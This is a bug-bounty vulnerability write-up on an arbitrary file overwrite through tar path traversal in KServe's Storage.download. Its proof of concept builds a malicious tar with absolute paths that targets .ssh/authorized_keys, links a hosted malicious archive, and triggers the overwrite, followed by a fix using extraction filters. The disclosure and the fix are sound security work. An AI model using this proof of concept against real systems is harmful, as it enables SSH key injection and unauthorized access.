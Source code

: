 ```yaml
---
layout: post
title:  "Huntr: Arbitrary File Overwrite in Kserve Storage.download(Informative)"
date:  2024-07-09 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> Huntr: Arbitrary File Overwrite in Kserve Storage.download API

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## Version

> 0.12.1

## Description

The Kserve python SDK provide extra [`Storage`](https://github.com/kserve/kserve/tree/master/python/kserve#pip-install) module to download model from [`storage providers`](https://github.com/kserve/kserve/tree/master/python/kserve#kserve-python-server). The [`Storage.download`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L63) is called to download and extract the model to file system. However, the function does not adequately prevent malicious tar files from performing path traversal attacks. This can allow the downloading of malicious tar files that can overwrite any file. 

Using above python sdk, a victim may download model from internet. Fisrt, [`Storage.download`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L63) calls [`Storage._download_from_uri`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L695) to handle url download, and `Storage._download_from_uri` calls [`Storage._unpack_archive_file`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L710) to extract the tarball model file.

The [`Storage.download`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L63) function:

```
@staticmethod
def download(uri: str, out_dir: str = None) -> str:
    ...
    if uri.startswith(_GCS_PREFIX):
        Storage._download_gcs(uri, out_dir)
    elif uri.startswith(_S3_PREFIX):
        Storage._download_s3(uri, out_dir)
    elif uri.startswith(_HDFS_PREFIX) or uri.startswith(_WEBHDFS_PREFIX):
        Storage._download_hdfs(uri, out_dir)
    elif re.search(_AZURE_BLOB_RE, uri):
        Storage._download_azure_blob(uri, out_dir)
    elif re.search(_AZURE_FILE_RE, uri):
        Storage._download_azure_file_share(uri, out_dir)
    elif is_local:
        return Storage._download_local(uri, out_dir)
    elif re.search(_URI_RE, uri):
        return Storage._download_from_uri(uri, out_dir)
```

The [`_download_from_uri`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L624) function:

```
@staticmethod
def _download_from_uri(uri, out_dir=None):
    url = urlparse(uri)
    ...
    local_path = os.path.join(out_dir, filename)

    with requests.get(uri, stream=True, headers=headers) as response:
        ...
        if encoding == "gzip":
            stream = gzip.GzipFile(fileobj=response.raw)
            local_path = os.path.join(out_dir, f"{filename}.tar")
        else:
            stream = response.raw
        with open(local_path, "wb") as out:
            shutil.copyfileobj(stream, out)

    if mimetype in ["application/x-tar", "application/zip"]:
        Storage._unpack_archive_file(local_path, mimetype, out_dir)
```

The [`_unpack_archive_file`](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L700) function extracts tarball without sanitization:

```
@staticmethod
def _unpack_archive_file(file_path, mimetype, target_dir=None):
    if not target_dir:
        target_dir = os.path.dirname(file_path)

    try:
        logger.info("Unpacking: %s", file_path)
        if mimetype == "application/x-tar":
            archive = tarfile.open(file_path, "r", encoding="utf-8")
        else:
            archive = zipfile.ZipFile(file_path, "r")
        archive.extractall(target_dir)
        archive.close()
```

The Python documentation explains us that tarfiles may have absolute filenames starting with / which could overwite files in system.

```
Warning: Never extract archives from untrusted sources without prior inspection. 
It is possible that files are created outside of path, 
e.g. members that have absolute filenames starting with "/" or filenames with two dots "..".
```

## Proof of Concept

An attacker can create a malicous tar file using following command:

```
tar --absolute-names -cvf hack.tar /home/kali/.ssh/authorized_keys
```

Then, the attacker will upload the `hack.tar` to public server. 

I have uploaded one malicous tar file to gitlab for testing: [https://gitlab.com/1159309551xcz/lfs/-/raw/main/hack.tar?ref_type=heads](https://gitlab.com/1159309551xcz/lfs/-/raw/main/hack.tar?ref_type=heads)

If anyone now downloads tar using `Storage.download` api, causing automatically extracting the malicous tar file and overwrite files silently.

```
from kserve.storage import Storage
Storage.download("https://gitlab.com/1159309551xcz/lfs/-/raw/main/hack.tar?ref_type=heads")
```
We can check the paylod `authorized_keys` has been overwriten.
```
$ cat /home/kali/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCov7XaSjvanAr+rs14Vz7Nn0KvVee57F5FYm8zKjmxYRb2s11r8L5L2IQPg4bMuvGcp+bouJfagdHQ/KoXD/l1IG3ZIggf67thPzGdH9gyShk2fpc1JSADkPT6WPeGAXSLh+0+InyzUqPe5oPA9zrvUDDYCKRG7NZ2A9++7hgs1DsNbJdxvYwy+8WMJAIrcfN+5QBxVHqUhUVFamyCoeu1DlalAnBSKwI61UMl0GkXN9DKMHgxSY0BMDT+AJr/F9Jwem5cTkVIr+RA9v901obfywdI/3TmPTwGwxiiZYhiWDWOaMNhyTXBWmIyBNN0usH9GtFtNPezcuUHBzsgHRcT js@dell
```

Tested on Google Colab: [https://colab.research.google.com/drive/1zwUsMUbTlDqGJdtLrhIo22HCkgzhQAes?usp=sharing](https://colab.research.google.com/drive/1zwUsMUbTlDqGJdtLrhIo22HCkgzhQAes?usp=sharing)

![poc](https://live.staticflickr.com/65535/53746993646_c00cf1cf03_o_d.png)


## Fix

```
@staticmethod
def _unpack_archive_file(file_path, mimetype, target_dir=None):
    # See: https://docs.python.org/3/library/tarfile.html#extraction-filters
    def extraction_filter(member, path):
        """Run tarfile.tar_filter, but raise the expected ValueError"""
        # This is only called if the current Python has tarfile filters
        try:
            return tarfile.tar_filter(member, path)
        except tarfile.FilterError as exc:
            raise ValueError(str(exc))

    if not target_dir:
        target_dir = os.path.dirname(file_path)

    try:
        logger.info("Unpacking: %s", file_path)
        if mimetype == "application/x-tar":
            archive = tarfile.open(file_path, "r", encoding="utf-8")
        else:
            archive = zipfile.ZipFile(file_path, "r")
        archive.extraction_filter = extraction_filter
        archive.extractall(target_dir)
        archive.close()

```

## Impact

This vulnerability can have severe consequences. This section will highlight some tangible impact.

### SSH Access

On servers that have SSH enabled, an attacker may be able to inject their own public RSA key into the authorized_keys file, leading to remote code execution.

### Web Servers

On servers hosting web servers, various vulnerabilities can be exploited. On PHP or JSP server, remote code execution may be possible via uploading a webshell. On other servers an HTML file can be uploaded to achieve Cross-site Scripting (XSS)


## Reference

[https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89](https://huntr.com/bounties/5d7e5752-085c-4e93-af0d-e25f05a27b89)

## Occurrences

[https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L710](https://github.com/kserve/kserve/blob/4841328f51df6b4a18cd451355d5ccf7d9dd72d0/python/kserve/kserve/storage/storage.py#L710)
